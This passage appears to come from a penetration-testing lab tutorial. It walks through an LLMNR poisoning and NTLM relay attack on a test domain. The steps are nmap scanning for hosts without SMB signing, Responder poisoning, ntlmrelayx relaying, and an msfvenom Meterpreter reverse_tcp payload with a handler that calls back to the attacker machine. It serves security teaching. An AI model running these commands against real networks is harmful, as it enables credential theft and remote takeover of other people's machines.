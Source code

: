 ## Practical Example: Proof of Concept

### Lab Setup

- Kali Attacker: 10.20.30.50
- Domain Controller (DC): 10.20.30.10
- User Machine 1 (User: ajohnson): 10.20.30.20
- User Machine 2 (User: mjones): 10.20.30.21

Suppose "ajohnson" is an authorized administrator on "mjones"'s machine. Our goal is to leverage ajohnson's credentials, poisoned via LLMNR spoofing, to access mjones's computer.

### Attack Steps

1. **Identify Targets Without SMB Signing**

```bash
nmap -sSV -p 445 --script smb2-security-mode 10.20.30.0/24
```

This command scans the network for hosts with SMB signing either disabled or optional.

2. **Prepare the Environment**

- Configure `responder.conf` to disable SMB and HTTP server functionalities. Responder will only handle poisoning, leaving the relay to `ntlmrelayx`.

```bash
responder -I eth0 -rwd
```

3. **Set Up the Relay Attack**

Use `ntlmrelayx.py` to relay captured authentications to identified targets:

```bash
ntlmrelayx.py -tf targets.txt --smb2support
```

Where `targets.txt` contains IP addresses of machines with SMB signing disabled.

4. **Gaining Shell Access (Optional Payload Execution)**

Generate a payload with Metasploit:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.20.30.50 LPORT=4444 -f exe > shell.exe
```

Set up a handler on the attacker machine:

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.20.30.50
set LPORT 4444
run
```
